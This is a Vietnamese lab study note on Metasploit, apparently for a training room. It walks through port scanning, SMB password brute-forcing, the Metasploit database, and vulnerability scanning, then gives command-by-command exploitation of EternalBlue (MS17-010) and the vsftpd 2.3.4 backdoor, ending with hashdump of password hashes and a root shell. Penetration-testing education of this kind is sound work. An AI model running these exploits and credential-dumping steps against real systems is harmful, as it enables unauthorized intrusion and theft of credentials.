# **Metasploit: Scanning and Exploitation**
## **1. Scanning with Metasploit**
Trước khi khai thác (exploit), bạn phải biết mục tiêu đang mở cổng nào và chạy dịch vụ gì. Metasploit tích hợp sẵn hàng trăm module quét mạng rất mạnh. 

### 1. Tại sao dùng Metasploit để quét thay vì Nmap?
Lý do chính là **Sự tích hợp cơ sở dữ liệu (Database Integration)**. Khi quét bằng các module của Metasploit, kết quả sẽ tự động lưu vào database của nó. Các module tấn công sau đó có thể tự động lấy IP và Cổng từ database này để bóp cò mà bạn không cần gõ lại thủ công.

*(Lưu ý: Bạn vẫn có thể chạy thẳng lệnh `nmap` từ bên trong `msfconsole`, nhưng kết quả sẽ chỉ in ra màn hình chứ KHÔNG lưu vào database. Để Nmap lưu vào database, phải dùng lệnh `db_nmap`)*.

### 2. Quét Cổng (Port Scanning) cơ bản
Metasploit cung cấp nhiều module quét cổng trong nhóm `auxiliary/scanner/portscan/`. 


Module phổ biến nhất là bản quét TCP cơ bản:

    use auxiliary/scanner/portscan/tcp

**Các tham số quan trọng cần cấu hình:**


*   **RHOSTS:** IP mục tiêu (ví dụ: `set RHOSTS 192.168.1.10`).
*   **PORTS:** Dải cổng cần quét. Khác với Nmap (mặc định quét 1.000 cổng phổ biến), Metasploit mặc định quét dải từ `1-10000`. Để quét nhanh hơn, nên chỉnh lại (ví dụ: `set PORTS 1-1024,3389`).
*   **THREADS / CONCURRENCY:** Tăng hai chỉ số này (ví dụ `set THREADS 10`) để quét nhiều cổng cùng lúc, giúp tiết kiệm thời gian.

### 3. Quét Dịch vụ chuyên sâu (Service-Specific Scanners)
Biết cổng mở là chưa đủ, bạn cần biết *chính xác phần mềm gì* đang chạy trên cổng đó. Metasploit có các module quét chuyên biệt cho từng loại dịch vụ:

*   **Quét tên NetBIOS (SMB):** Khám phá tên máy tính và Domain.
    ```bash
    use auxiliary/scanner/netbios/nbname
    ```
    

*   **Quét phiên bản HTTP:** Xem web server đang chạy phần mềm gì, phiên bản bao nhiêu (rất hữu ích để tìm lỗi cũ).
    ```bash
    use auxiliary/scanner/http/http_version
    ```
    

*   **Dò mật khẩu (Brute-Force):** Thử đăng nhập tự động bằng danh sách từ điển (Wordlist). Ví dụ dò mật khẩu SMB:
    ```bash
    use auxiliary/scanner/smb/smb_login
    set SMBUSER penny
    set PASS_FILE /usr/share/wordlists/...
    set VERBOSE false
    run
    ```
    

    *Dò mật khẩu yếu là một trong những cách nhanh nhất để có được quyền truy cập đầu tiên (Foothold).*

**Quy trình tìm Scanner chuẩn:**
Bạn không cần học thuộc tên module. Cứ thấy cổng nào mở (ví dụ FTP ở cổng 21), hãy gõ lệnh `search type:auxiliary ftp`. Sau đó dùng lệnh `info` để đọc xem module đó làm gì, cấu hình tham số rồi bóp cò. Kỹ năng nằm ở quá trình tìm kiếm chứ không phải học thuộc lòng

## **3. The Metasploit Database**
Trong một cuộc đánh giá thực tế với hàng chục mục tiêu, việc ghi nhớ thủ công các IP, cổng mở hay mật khẩu là bất khả thi. Metasploit giải quyết vấn đề này bằng một cơ sở dữ liệu PostgreSQL tích hợp sẵn.

### 1. Khởi tạo và kết nối cơ sở dữ liệu
*   Trên Kali Linux, bạn cần khởi tạo database trước khi chạy MSF bằng lệnh (chạy bên ngoài terminal thường, không phải msfconsole):

    Khởi tạo DB:
    ```
    sudo systemctl start postgresql
    ```

    ```
    sudo msfdb init
    ```
*   Sau khi vào `msfconsole`, gõ lệnh sau để kiểm tra:
    ```
    db_status
    ```

    

    Nếu báo kết nối thành công (`Connected to msf`), bạn đã sẵn sàng.

### 2. Không gian làm việc (Workspaces)
Workspace giúp bạn cô lập dữ liệu giữa các dự án/khách hàng khác nhau (để không bị nhầm IP của công ty này sang công ty khác).
*   **Tạo và chuyển sang workspace mới:** 
    ```
    workspace -a <tên>
    ```

*   **Liệt kê các workspace:** Gõ `workspace` (dấu `*` báo hiệu workspace đang hoạt động).
*   **Chuyển workspace:** 
    ```
    workspace <tên>
    ```

*   **Xóa workspace:** 
    ```
    workspace -d <tên>
    ```
    

### 3. Quét và lưu trữ tự động
*   **db_nmap:** Lệnh này chạy Nmap y hệt như bình thường, nhưng toàn bộ kết quả quét (host, port, OS) sẽ được tự động lưu thẳng vào database của Metasploit.
    ```bash
    db_nmap -sV -O 192.168.1.10
    ```

*   **db_import:** Nếu bạn đã quét bằng Nmap từ trước (và xuất ra file `.xml`), hoặc có file quét từ Nessus/Burp Suite, bạn có thể nạp thẳng vào MSF bằng lệnh:
    ```bash
    db_import /path/to/nmap_scan.xml
    ```
    

### 4. Truy vấn dữ liệu (Querying)
Thay vì lật sổ tay ghi chép, bạn dùng các lệnh sau để tra cứu dữ liệu đã lưu trong workspace hiện tại:
*   `hosts`: Liệt kê danh sách tất cả các IP mục tiêu đã quét được.


*   `services`: Liệt kê tất cả các cổng/dịch vụ đang mở. (Dùng cờ `-S` để lọc nhanh, ví dụ `services -S smb` để tìm các máy đang chạy dịch vụ SMB).

*   `creds`: Hiển thị tất cả tài khoản/mật khẩu mà bạn đã dò được. Các module khai thác sau này có thể tự động lấy mật khẩu từ bảng này để sử dụng.

### 5. Tự động điền RHOSTS siêu tốc
Đây là tính năng tiết kiệm thời gian nhất. Thay vì copy/paste IP thủ công, bạn có thể lấy thẳng danh sách máy từ database đập vào tham số `RHOSTS` của module hiện tại bằng cờ `-R` (viết hoa):
*   Nạp toàn bộ danh sách IP vào module:
    ```bash
    hosts -R
    ```

*   Chỉ nạp các IP đang chạy dịch vụ cụ thể (Ví dụ nạp các máy có cổng SMB):
    ```bash
    services -S smb -R
    ```

## **4. Vulnerabilities Scanning**
Sau khi quét mạng và biết được tên phiên bản của các dịch vụ (ví dụ: Windows Server 2008, vsftpd 2.3.4), bước tiếp theo là xác định xem các phiên bản này có chứa lỗ hổng nào có thể khai thác được hay không.

### 1. Chiến lược "Low-Hanging Fruit" (Quả chín ép)
Trong kiểm thử thâm nhập, "Low-Hanging Fruit" chỉ những lỗ hổng dễ tìm và dễ khai thác nhất (như phần mềm chưa vá lỗi, mật khẩu mặc định, cấu hình sai). Các module phụ trợ (auxiliary scanner) của Metasploit được thiết kế đặc biệt để săn lùng những quả chín ép này.

### 2. Quy trình quét lỗ hổng chuẩn
Phiên bản phần mềm chính là chìa khóa. Quy trình chuẩn luôn tuân theo các bước sau:
1.  **Đọc kết quả Nmap:** Gõ `services` hoặc `services -S <tên_dịch_vụ>` để xem phiên bản phần mềm.


2.  **Tìm kiếm Module tương ứng:** Sử dụng phiên bản phần mềm hoặc mã CVE làm từ khóa.
    ```bash
    search type:auxiliary <tên_dịch_vụ_hoặc_cve>
    ```
3.  **Cấu hình và Chạy:** Chọn module bằng lệnh `use`, nạp IP mục tiêu (thủ công hoặc qua cơ sở dữ liệu như `services -R`), và gõ `run`.
4.  **Kiểm tra kết quả:** Gõ lệnh `vulns` để xem danh sách các lỗ hổng đã được Metasploit xác nhận và lưu vào cơ sở dữ liệu.

### 3. Ví dụ thực tế từ bài học
*   **Ví dụ 1: Quét lỗi EternalBlue (MS17-010)**
    *   Mục tiêu chạy Windows Server 2008 (nổi tiếng với lỗi SMB này).
    *   Sử dụng module: `auxiliary/scanner/smb/smb_ms17_010`.
    *   Kết quả: Thông báo hiển thị `Host is likely VULNERABLE`, xác nhận máy chưa được vá lỗi và là ứng cử viên sáng giá để tấn công RCE.
*   **Ví dụ 2: Quét lỗi đăng nhập nặc danh FTP**
    *   Mục tiêu chạy dịch vụ vsftpd 2.3.4 trên cổng 21.
    *   Sử dụng module: `auxiliary/scanner/ftp/ftp_anonymous` kết hợp lệnh `services -S ftp -R` để nạp IP.
    *   Kết quả: Tính năng đăng nhập nặc danh đã bị tắt (an toàn). Tuy nhiên, banner xác nhận phiên bản là `vsFTPd 2.3.4` – một phiên bản nổi tiếng vì chứa backdoor (cửa hậu) được gài sẵn, sẽ được dùng để khai thác ở bước tiếp theo

## **5. Exploit: EternalBlue (MS17-010)**
Quá trình khai thác lỗ hổng EternalBlue (MS17-010) trên Windows Server 2008 yêu cầu thực hiện theo trình tự ba bước cơ bản của Metasploit: Tìm kiếm, Cấu hình và Bóp cò.

### 1. Bước 1: Tìm kiếm và Chọn Module (Search & Select)
Sử dụng lệnh `search` kết hợp với từ khóa để tìm module khai thác phù hợp, sau đó chọn module từ danh sách kết quả.

*   **Tìm kiếm:**
    ```bash
    search eternalblue type:exploit
    ```
*   **Chọn module:**
    ```bash
    use 0
    ```
    

    *(Metasploit sẽ tự động gán payload mặc định là `windows/x64/meterpreter/reverse_tcp` để cung cấp phiên tương tác sau khi khai thác thành công).*

### 2. Bước 2: Cấu hình tham số (Configure)
Cần chỉ định IP của mục tiêu (`RHOSTS`) và kiểm tra lại các thiết lập trước khi tấn công.

*   **Cài đặt IP mục tiêu:**
    ```bash
    set RHOSTS MACHINE_IP
    ```
*   **Kiểm tra tổng thể cấu hình:**
    ```bash
    show options
    ```
    

    *(Cần đảm bảo tham số `LHOST` trong phần Payload options được thiết lập đúng với IP của máy AttackBox hoặc máy Kali của bạn).*

### 3. Bước 3: Khai thác và Hậu khai thác (Exploit)
Chạy mã khai thác, thu thập thông tin và lấy dữ liệu nhạy cảm từ mục tiêu sau khi chiếm được quyền điều khiển.

*   **Thực thi tấn công:**
    ```bash
    exploit
    ```
    *(Nếu thành công, kết nối sẽ được thiết lập và dấu nhắc lệnh chuyển thành `meterpreter >`).*

    

*   **Kiểm tra đặc quyền và đọc Flag:**
    ```bash
    getuid
    search -f flag.txt
    cat c:\\Users\\Administrator\\Desktop\\flag.txt
    ```
    *(Kết quả `NT AUTHORITY\SYSTEM` cho thấy bạn đã chiếm được đặc quyền cao nhất do đặc thù của lỗ hổng hạt nhân MS17-010).*
    

*   **Trích xuất mã băm mật khẩu và ẩn phiên:**
    ```bash
    hashdump
    background
    ```
    

    *(Lệnh `hashdump` sẽ lấy NTLM hash của các tài khoản cục bộ như 'pirate'. Lệnh `background` đưa phiên hiện tại chạy ngầm để tiếp tục sử dụng msfconsole).*

## **6. Exploit 2: vsftpd 2.3.4 Backdoor**
Trong bài thực hành này, mục tiêu là máy chủ Linux chạy dịch vụ FTP vsftpd phiên bản 2.3.4. Phiên bản này nổi tiếng vì bị chèn sẵn một đoạn mã độc (backdoor) vào mã nguồn năm 2011. Khi người dùng đăng nhập với tên kết thúc bằng mặt cười `:)`, backdoor sẽ mở một cổng lệnh (port 6200) cho phép điều khiển máy chủ.

### 1. Chuẩn bị môi trường
*   Đảm bảo máy ảo AttackBox và Lab Machine đều đang hoạt động.
*   Lưu ý: Dừng các phiên (session) trước đó bằng lệnh `sessions -K` để tránh xung đột.

### 2. Tìm kiếm và Cấu hình Module
*   **Tìm module khai thác:** Sử dụng từ khóa `vsftpd` để tìm kiếm.
    ```
    search vsftpd
    ```
    

*   **Chọn module backdoor:** Module này có độ tin cậy được đánh giá là `excellent` (tuyệt vời), nghĩa là nó hoạt động cực kỳ ổn định mà không làm sập dịch vụ.
    ```
    use 1
    ```

*   **Cấu hình Payload:** Lỗ hổng này mở ra một kênh lệnh đơn giản (command channel), không hỗ trợ Meterpreter. Do đó, payload mặc định thường là `cmd/unix/interact`.
    ```bash
    set PAYLOAD cmd/unix/interact
    ```

### 3. Thực thi Khai thác
*   **Cài đặt IP mục tiêu và Bóp cò:**
    ```bash
    set RHOSTS MACHINE_IP
    exploit
    ```
    
*   **Tương tác với mục tiêu:** Sau khi thông báo `Found shell` và `Command shell session 2 opened` xuất hiện, bạn không còn ở giao diện Meterpreter nữa. Bạn đang tương tác trực tiếp với **raw shell** (dấu nhắc lệnh gốc) của Linux. Do đó, bạn sẽ không thấy tiền tố `meterpreter >`.
*   **Kiểm tra quyền hạn:** Gõ lệnh Linux thông thường để xác minh.
    ```bash
    id
    whoami
    hostname
    ```
    

    *(Kết quả `uid=0(root)` xác nhận bạn đã chiếm được quyền root tối cao trên máy chủ Linux)*.

### 4. So sánh EternalBlue và vsftpd 2.3.4 Backdoor
Sự khác biệt cốt lõi giữa hai phương pháp tấn công này:
*   **Mục tiêu & Hệ điều hành:** EternalBlue nhắm vào SMB (port 445) trên Windows 7; vsftpd nhắm vào FTP (port 21) trên Ubuntu Linux.
*   **Bản chất lỗ hổng:** EternalBlue là lỗi tràn bộ đệm (Buffer overflow) ở mức nhân hệ thống; vsftpd là cửa hậu (backdoor) cố ý cài cắm trong mã nguồn.
*   **Phiên khai thác (Session):** EternalBlue cung cấp Meterpreter shell mạnh mẽ; vsftpd chỉ trả về Command shell cơ bản.
*   **Quyền hạn đạt được:** Cả hai đều cấp quyền tối cao: `NT AUTHORITY` (Windows) và `root` (Linux)